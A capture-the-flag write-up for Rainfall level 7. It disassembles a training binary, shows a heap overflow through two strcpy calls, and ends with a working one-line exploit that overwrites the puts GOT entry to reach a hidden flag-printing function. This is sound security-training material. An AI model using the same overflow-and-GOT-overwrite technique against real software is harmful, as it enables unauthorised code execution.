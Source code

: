 # Rainfall - Level 7

## Executable Analyse
Executable contain 2 functions. But only one is used.

```assembly
(gdb) info function

0x080484f4  m
0x08048521  main
```

In `main`, two strings are allocated on the heap, then consequently filled with `argv[1]`, and `argv[2]`, letting us easily overwriting  

A file descriptor with the wanted flag is opened, and put in a global variale wich is sadly never read in main.

Inaccessible `m()` function read our wanted variable. The goal is to force the program to execute the m function.

## Heap overflow

There are two calls to strcpy that can overflow using the first two arguments of main.  

With ltrace you can see how the first overflow affects the second one :  

```shell
$> ltrace ./level7 aaaaaaaaaaaaaaaaaaaabbbb test
[...]
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaabbbb")             = 0x0804a018
strcpy(0x62626262, "test")
```

After 20 chars, we can set the address where the second strcpy will write.

``` assembly
(gdb) disas puts

Dump of assembler code for function puts@plt:
   0x08048400 <+0>:		jmp    *0x8049928
   0x08048406 <+6>:		push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Using the link puts() addr, as we did for level5, we can jump to the `m()` function and print our flag  

``` bash
./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
```
